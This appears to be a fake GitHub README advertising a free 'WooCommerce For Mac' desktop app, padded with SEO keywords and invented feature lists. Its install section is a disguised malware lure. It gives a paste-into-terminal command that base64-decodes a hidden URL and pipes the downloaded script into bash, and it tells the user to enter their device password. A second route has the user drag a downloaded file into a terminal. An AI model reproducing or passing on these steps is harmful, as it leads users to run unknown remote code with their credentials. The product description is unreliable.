 # WooCommerce For Mac — Download For Mac OS 😊
![logo](https://elbnetz.com/wp-content/uploads/2024/12/Was-ist-WooCommerce.png)
WooCommerce For Mac is a powerful desktop application designed to manage your e-commerce store directly from your Mac. Built for macOS users, this app simplifies product management, order tracking, and sales analytics for WooCommerce store owners. Follow the instructions below to install WooCommerce For Mac and streamline your online business operations.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/woocom)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install WooCommerce For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🛒 **Product Management**: Easily add, edit, and organize products for your online store.
- 📦 **Order Tracking**: Monitor and manage customer orders with real-time updates.
- 📊 **Sales Analytics**: Access detailed reports to track revenue and performance metrics.
- 🔄 **Seamless Syncing**: Sync your store data across devices for consistent management.
- 🔔 **Instant Notifications**: Receive alerts for new orders and customer inquiries.
- 🔒 **Secure Operations**: Protect your store data with robust encryption and authentication.

## About WooCommerce For Mac

WooCommerce For Mac is a dedicated desktop application crafted for macOS users who run e-commerce stores powered by WooCommerce. This app brings the power of WooCommerce’s robust platform to your Mac, allowing you to manage products, track orders, and analyze sales data without relying on a browser. Optimized for performance, it offers a native macOS experience with a sleek interface and fast load times. Keywords like *WooCommerce Mac app*, *e-commerce management Mac*, and *free WooCommerce download* ensure this tool is easily discoverable for store owners seeking efficient solutions.

Designed specifically for macOS, WooCommerce For Mac integrates seamlessly with your workflow, providing a streamlined way to manage your online store. From adding new products to processing orders and generating sales reports, the app simplifies complex e-commerce tasks. Its offline capabilities and real-time syncing make it a reliable choice for busy entrepreneurs. Search terms like *WooCommerce for Mac free* and *Mac e-commerce software* enhance its visibility for users looking for free, powerful tools.

WooCommerce For Mac empowers store owners with advanced features like customizable dashboards, inventory management, and integration with popular payment gateways. The app’s intuitive design makes it accessible for beginners while offering the depth needed for experienced e-commerce professionals. By leveraging keywords such as *WooCommerce desktop app* and *e-commerce analytics Mac*, the app attracts users searching for a comprehensive solution to manage their online businesses.

With regular updates to ensure compatibility with the latest macOS versions, WooCommerce For Mac delivers a secure and efficient experience. Its robust security features protect sensitive store data, while its user-friendly interface simplifies daily operations. Whether you’re searching for *free WooCommerce Mac* or *e-commerce management software*, this app provides unmatched value for anyone looking to optimize their WooCommerce store on a Mac.

## Advantages of WooCommerce For Mac

- 🌟 **Mac-Optimized Interface**: A sleek, intuitive design tailored for macOS users.
- ⚡ **High Performance**: Fast load times and smooth operation for efficient store management.
- 📈 **Advanced Analytics**: Track sales and performance with detailed, customizable reports.
- 🛠 **Customizable Workflows**: Tailor the app to fit your store’s unique needs.
- 🆓 **Free to Use**: Access powerful e-commerce tools at no cost, ideal for small businesses.
- 🔄 **Real-Time Syncing**: Keep your store data consistent across all devices.

## 🖼 Preview

![Dashboard View](https://woocommerce.com/wp-content/uploads/2020/04/start-woo@2x.jpg)  
*Manage your online store with an intuitive and centralized dashboard.*

![Product Management](https://woocommerce.github.io/woocommerce-rest-api-docs/images/woocommerce-api-keys-settings-02dfb1f9.png)  
*Easily add, edit, and organize products for your e-commerce store.*

![Order Tracking](https://i.postimg.cc/4xY7N5pF/woocommerce-orders.jpg)  
*Track and manage customer orders with real-time updates.*

![Analytics Overview](https://i.postimg.cc/7hB9X3kD/woocommerce-analytics.jpg)  
*Monitor sales and performance with detailed analytics reports.*

## 🔍 Tags

woocommerce, woocommerce app, woocommerce desktop, woocommerce for mac, woocommerce download woocommerce pricing, woocommerce wordpress, woocommerce bookings, commerce b2b, woocommerce website, woocommerce webshop, b2b woocommerce, WooCommerce for Mac, WooCommerce Mac app, e-commerce management Mac, free WooCommerce download, WooCommerce desktop app, Mac e-commerce software, WooCommerce for Mac free, e-commerce analytics Mac, online store management Mac, WooCommerce store app, e-commerce tools Mac
